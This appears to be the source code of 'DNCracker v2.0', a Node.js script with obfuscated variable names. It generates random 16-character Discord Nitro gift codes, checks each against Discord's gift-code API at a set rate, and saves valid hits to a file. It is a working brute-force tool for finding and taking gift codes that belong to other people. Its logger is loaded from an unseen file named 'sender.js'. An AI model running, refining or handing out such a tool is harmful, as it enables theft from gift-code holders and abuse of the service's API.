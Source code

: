 const request = require('request');
const logger = require(__dirname + '/assets/sender.js');
const fs = require('fs');
const figlet = require('figlet');
const colors = require('colors');
const readline = require('readline');
var config = require('./config.json');
const triesPerSecond = config['triesPerSecond'];
var working = [];
getGiftCode = function() {
    let _0x8578xa = '';
    let _0x8578xb = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    for (var _0x8578xc = 0; _0x8578xc < 16; _0x8578xc++) {
        _0x8578xa = _0x8578xa + _0x8578xb['charAt'](Math['floor'](Math['random']() * _0x8578xb['length']))
    };
    return _0x8578xa
};
checkCode = function(_0x8578xa) {
    request(('https://discordapp.com/api/v6/entitlements/gift-codes/' + _0x8578xa + '?with_application=false&with_subscription_plan=true'), (_0x8578xd, _0x8578xe, _0x8578xf) => {
        if (_0x8578xd) {
            logger['error']('An error occurred:');
            logger['error'](_0x8578xd);
            return
        };
        try {
            _0x8578xf = JSON['parse'](_0x8578xf);
            if (_0x8578xf['message'] != 'Unknown Gift Code' && _0x8578xf['message'] != 'You are being rate limited.') {
                logger['info'](('nextu.xyz | https://discord.gift/' + _0x8578xa + ' | Valid'));
                working['push'](('DNCracker by xNextu | https://discord.gift/' + _0x8578xa + ' | nextu.xyz'));
                fs['writeFileSync']('valid-nitros.json', JSON['stringify'](working, null, 4))
            } else {
                logger['info'](('nextu.xyz | ' + _0x8578xa + ' | Invalid'))
            }
        } catch (_0x8578xd) {
            logger['error']('An error occurred:');
            logger['error'](_0x8578xd);
            return
        }
    })
};
console['log'](figlet['textSync']('DNCracker v2.0  |  Nitro')['red']);
console['log'](' ');
console['log'](' ');
console['log']('DNCracker v2.0 | Created by xNextu | nextu.xyz' ['cyan']);
console['log'](' ');
console['log']('Our discord: https://discord.gg/jUfvAzR' ['cyan']);
console['log'](' ');
console['log']('Nitro-Checker started!' ['cyan']);
console['log'](' ');
checkCode(getGiftCode());
setInterval(() => {
    checkCode(getGiftCode())
}, (1 / triesPerSecond) * 1000)

